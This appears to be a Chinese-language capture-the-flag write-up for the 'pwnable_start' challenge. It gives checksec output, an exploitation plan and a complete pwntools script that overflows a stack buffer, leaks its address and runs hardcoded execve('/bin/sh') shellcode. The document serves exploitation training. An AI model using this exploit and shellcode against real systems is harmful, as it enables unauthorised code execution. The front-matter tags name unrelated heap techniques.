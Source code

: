 ```yaml
---
title: 'pwnable_start'
date: 2024-01-25 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

- `bss`

![image-20240125160222828](../assets/img/old_imgs/image-20240125160222828.png)

```shell
bamuwe@qianenzhao:~$ checksec start
[*] '/home/bamuwe/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

保护全关,但不能看伪代码,只能看汇编

思路:

1. 通过溢出泄露`buf(输入数据)`地址
2. 跳转到`buf`地址,写入`shellcode`
3. 跳转到`buf`地址,执行`shellcode`拿到`shell`

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.os = 'linux'
io = gdb.debug('./start')
padding = b'A'*0x14
buf_addr = 0x8048087
shellcode=b"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80"

def leak():
    global buf_addr
    payload = padding+p32(buf_addr)

    io.sendafter( b"Let's start the CTF:",payload)
    buf_addr = u32(io.recv(4))
    print('buf_addr->',hex(buf_addr))
    return 0

def pwn():
    global shellcode
    payload = padding+p32(buf_addr+0x14)+shellcode
    io.send(payload)
    return 0

leak()
pwn()
io.interactive()
```

>需要注意的是,这里`buf`空间长度不足,所以需要另外找一个`shellcode`而不能使用直接生成的`shellcode`,直接生成的`shellcode`长度会在$21~60$之间

